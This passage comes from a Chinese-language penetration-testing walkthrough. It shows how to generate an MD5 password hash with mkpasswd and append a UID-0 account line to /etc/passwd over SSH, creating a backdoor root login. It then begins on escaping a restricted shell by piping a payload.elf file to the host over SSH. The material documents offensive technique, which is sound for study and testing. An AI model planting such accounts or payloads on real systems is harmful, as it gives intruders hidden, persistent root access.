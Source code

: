 喜欢使用 FinalShell 的朋友需要注意，FinalShell 目前还不支持没有密码的 SSH 连接  
#### 4) 添加一个有密码的账户  
  
不写公钥，写账户是因为写账户比较简单易操作，有密码和无密码其实差别就在于 /etc/passwd 的第二位  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EC5fdMRhjBXbSUPGRRC17nY4CbgcNhmRPzyY0IR8OMPlsSjia8WqltLg/640?wx_fmt=png&from=appmsg "")  
  
  
我们可以按照当前操作系统的规则生成一个密码，以创建 user/userpass 为例  
```
$1$yi$edpzE7hM/R4nw3PnFuiVL/

```  
  
admin 的hash含义是密码经过了 md5 加密并且盐(salt) 值为 yi  
  
在我们自己的 Ubuntu 上安装 whois ，并通过 mkpasswd 生成 Hash  
```
sudo apt install whois
mkpasswd -m md5 --salt=SaltValue userpass

```  
  
mkpasswd 要求盐值不少于 8 为，我们就以 12345678 作为盐值  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EnIIR8jvjHAoBjXyVRn7VWcUxiaicFMpROYWjm7mJCic1FXWlnE1bO3DEQ/640?wx_fmt=png&from=appmsg "")  
  
```
$1$12345678$sEgioVKWacw6d9iYXc1P4/

```  
  
拼接后完整如下  
```
user:$1$12345678$sEgioVKWacw6d9iYXc1P4/:0:0:W:/:/bin/sh

```  
  
直接通过 SSH，使用 cat将内容写入到 /etc/passwd ,千万记得要用追加写 >>,而且 $ 需要转义 \$  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EibquGBayglTvxXXY8ic8uCyhxXicY7ibqtU5ib32KXAFVzV9X3KRrT6Z74A/640?wx_fmt=png&from=appmsg "")  
  
  
这 ssh 还设置了一些安全策略，错误的密码登录后（例如通过 FinalShell 登录尝试），会导致IP封禁  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EMKx2GH1ty17ucuzomAy9R5QicUfpMdicVLsNaYF5ope3X45E8s4CPibaA/640?wx_fmt=png&from=appmsg "")  
  
  
使用 user/userpass 通过 FinalShell 登录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EiaNoZOBbSydWR7JykKltsPdWsVnVHLVNl6WLJyTbjPsHuicVR2nvzNUQ/640?wx_fmt=png&from=appmsg "")  
  
  
至此，已经成功获取了 ssh shell，上面的部分内容都是铺垫，接下来就是今天要详细探讨的内容  
## 0x03 突破受限的shell   
  
目前虽然获取到了 SSH 的权限，但是无法上传文件，建立代理  
### 1. SSH 传输文件  
```
cat payload.elf | ssh -v -p 1337 P@192.168.1.64 'cat > payload.elf'

```  
  